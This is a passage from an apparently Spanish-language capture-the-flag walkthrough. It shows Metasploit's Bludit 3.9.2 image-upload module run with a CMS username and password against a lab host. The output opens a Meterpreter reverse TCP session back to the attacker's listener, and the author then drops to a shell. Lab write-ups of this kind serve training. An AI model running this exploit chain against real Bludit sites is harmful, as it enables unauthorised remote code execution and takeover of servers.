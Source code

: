 Seleccionamos el numero 0:
```bash
msf6 > use 0
[*] No payload configured, defaulting to php/meterpreter/reverse_tcp
```

Ahora verificamos las opciones que tenemos que configurar:
```bash
show options
```

Vemos que por defecto ya carga nuestra ip de atacante
```bash
Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.100.24   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:
   Id  Name
   --  ----
   0   Bludit v3.9.2
```

Ahora seteamos al objetivo:
```bash
msf6 exploit(linux/http/bludit_upload_images_exec) > set BLUDITPASS cassandra
BLUDITPASS => cassandra
msf6 exploit(linux/http/bludit_upload_images_exec) > set BLUDITUSER Jaulacon2025
BLUDITUSER => Jaulacon2025
msf6 exploit(linux/http/bludit_upload_images_exec) > set RHOSTS jaulacon2025.thl
RHOSTS => jaulacon2025.thl
```

Ahora ejecutamos el exploit:
```bash
msf6 exploit(linux/http/bludit_upload_images_exec) > run
[*] Started reverse TCP handler on 192.168.100.24:4444 
[+] Logged in as: Jaulacon2025
[*] Retrieving UUID...
[*] Uploading YWbngXqUYW.png...
[*] Uploading .htaccess...
[*] Executing YWbngXqUYW.png...
[*] Sending stage (40004 bytes) to 192.168.100.30
[+] Deleted .htaccess
[*] Meterpreter session 1 opened (192.168.100.24:4444 -> 192.168.100.30:45296) at 2025-08-01 19:14:49 +0000
```

Una ves ganado el acceso, Corremos una **shell**
```bash
meterpreter > shell
Process 3657 created.
Channel 0 created.
```
